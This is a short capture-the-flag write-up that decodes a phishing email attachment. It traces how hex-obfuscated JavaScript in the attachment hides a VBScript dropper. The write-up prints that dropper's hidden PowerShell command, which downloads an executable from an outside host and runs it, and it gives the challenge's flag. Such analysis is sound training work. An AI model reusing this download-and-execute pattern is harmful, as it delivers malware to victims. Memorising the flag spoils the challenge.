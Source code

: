 # ANALYSIS

Step 1 : Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml : last par of the eml is base64 decoded

```
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0.......
```

We find an HTML file with javascript, ....and it uses the unescape function to decode a string that has been encoded in hexadecimal


Step 2 : the HEXA code is decoded from HEX....
There is some fake vbscript and the flag in it 

```
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
```




# FLAG

HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}